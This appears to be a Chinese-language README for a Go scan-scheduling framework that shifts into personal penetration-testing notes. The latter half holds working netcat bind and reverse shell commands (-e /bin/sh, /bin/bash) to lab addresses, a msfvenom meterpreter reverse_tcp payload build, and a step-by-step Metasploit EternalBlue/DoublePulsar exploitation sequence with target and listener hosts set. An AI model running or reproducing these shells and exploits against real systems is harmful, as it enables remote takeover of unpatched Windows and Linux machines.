 # 项目要求
```go
扫描调度框架，建议实现如下功能:
1、扫描器一键发布（通过提供ssh地址、账号、密码，实现一键发布）
2、任务增、删、改、查，状态监控
3、扫描结果回传、展示（在调度框架上实现初步展示）
4、扫描结果与网络空间测绘平台对接，清洗、入库
```
# 一 整体设计

![](./screenshot/manager.png)

## 1 通讯逻辑
```go
通讯方式改为了中心节点向worker发送http心跳请求
work节点就是一个http的服务
中心调度系统确实也是可以分布式的
```

## 2 调度逻辑

中心节点遍历任务，抢锁后通过http请求分发任务

# 二 源码相关

## 1 静态资源的打包

所用的包
```go
Go 语言打包静态文件以及如何与Gin一起使用Go-bindata
```

安装方法
```go

go get -u github.com/jteeuwen/go-bindata/...

安装前需要先关闭go mod
go env -w GO111MODULE=off

#通过命令行加入GOBIN的PATH
export PATH=$PATH:$GOPATH/bin
#编辑启动配置文件，开机后自动加载这个路径
nano ~/.bashrc
#编辑完成后，重新加载环境变量到内存
source ~/.bashrc

```

前端修改后打包进go项目
```go
go-bindata -o=core/utils/asset/asset.go -pkg=asset web/crocodile/... sql
```

# 三 项目的安装

数据库是先要新建的   表和数据是通过代码初始化的


#
vscan -host {ip} -p {port} -json -o {res}

 apt install libpcap-dev


kscan -t {ip} -p {port} -oJ {res}



# 脚本
## 主动shell
nc -lvvp 6666 -e /bin/sh   主动shell

nc 192.168.56.132 6666  攻击机联

## udp  通讯
nc -lvvp 6666 -u -e  /bin/sh
nc -u 192.168.56.132 6666 

## 反弹shell
nc 192.168.56.132 4444 -e /bin/bash    被攻击主动的联 132
nc -lp 4444     攻击机可以处理
  



# 代码统计
Language                     files          blank        comment           code
-------------------------------------------------------------------------------
SQL                             33             58            276          25412
Go                             151           3704           2190          21657
CSS                             26              7            378           9945
SVG                              1              0              4           4696
HTML                            17            101             12           2489
JSON                             2              0              0           1546
XML                              2             11              1            990
YAML                             2              0              0            955
INI                              5             98              0            456
JavaScript                      35             67            429            408
Bourne Shell                    16            101             16            364
TOML                             6             26            176            306
Markdown                        10            113              0            278
CSV                              1              0              0             59
make                             1             15              0             50
Protocol Buffers                 1              8              8             34
Dockerfile                       1              2              2              6
D                                2              0              0              2
-------------------------------------------------------------------------------
SUM:                           312           4311           3492          69653




# doub
启动SSH服务
命令为：
/etc/init.d/ssh start

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.133 lport=4444 -f dll -o ~/eternal11.dll


use exploit/windows/smb/eternalblue_doublepulsar


set payload payload/windows/meterpreter/reverse_tcp

set winepath /home/kali/           ----- - Writing DLL in /home/kali/eternal11.dll


  set DOUBLEPULSARPATH  /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

  set ETERNALBLUEPATH /home/kali/Eternalblue-Doublepulsar-Metasploit-master-master/Eternalblue-Doublepulsar-Metasploit-master/deps

set rhost 192.168.56.141

## nmap
nmap -p 445 <target> --script=smb-double-pulsar-backdoor



# 下载对应的MSF插件并复制到目标目录中
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
cd Eternalblue-Doublepulsar-Metasploit/
cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/

# 安装依赖
dpkg --add-architecture i386 && apt-get update && apt-get install wine32 --fix-missing

# 创建.wine/drive_c目录，否则后续利用漏洞时会出现目录不存在错误
mkdir -p /root/.wine/drive_c

# 开启MSF并重新加载插件
msfconsole
reload_all

# 漏洞利用
use exploit/windows/smb/eternalblue_doublepulsar
set rhost 192.168.200.142
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.200.130
set PROCESSINJECT explorer.exe # 注意，需要设置PROCESSINJECT，使用默认值并没成功，改PROCESSINJECT为explorer.exe成功
run